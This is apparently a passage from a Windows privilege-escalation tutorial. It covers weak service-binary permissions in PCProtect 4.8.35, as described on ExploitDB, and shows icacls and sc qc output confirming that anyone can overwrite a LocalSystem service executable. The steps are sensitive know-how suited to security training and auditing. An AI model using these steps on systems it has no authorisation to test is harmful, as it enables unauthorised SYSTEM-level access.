 # Privilege Escalation via Write Permissions

In this section, we will discuss privilege escalation techniques that involve replacing the executable of a service. An application listed on ExploitDB, [PCProtect 4.8.35](https://www.exploit-db.com/exploits/45503), grants full permissions to any user. The author describes the following:

> The application grants "Everyone: (F)" to the contents of the directory and its subfolders. Additionally, the program installs a service called "SecurityService" which runs under the "Local system account." This configuration allows any user to escalate privileges to "NT AUTHORITY\SYSTEM" by substituting the service's binary with a malicious one.

The proof of concept (PoC) is documented on the exploit page. We will follow those steps after installing the application, which can be [downloaded here](https://www.exploit-db.com/apps/ddcc3319288a35caa42e561e513d13df-PCProtect_Setup%20(1).exe).

```shell
C:\Users\user>icacls "c:\Program Files (x86)\PCProtect"
c:\Program Files (x86)\PCProtect BUILTIN\Users:(OI)(CI)(F)
                                 Everyone:(OI)(CI)(F)
                                 NT SERVICE\TrustedInstaller:(I)(F)
                                 NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                 NT AUTHORITY\SYSTEM:(I)(F)
                                 NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                 BUILTIN\Administrators:(I)(F)
                                 BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                 BUILTIN\Users:(I)(RX)
                                 BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                 CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files

C:\Users\user>sc qc SecurityService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SecurityService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : PC Security Management Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\user>icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

```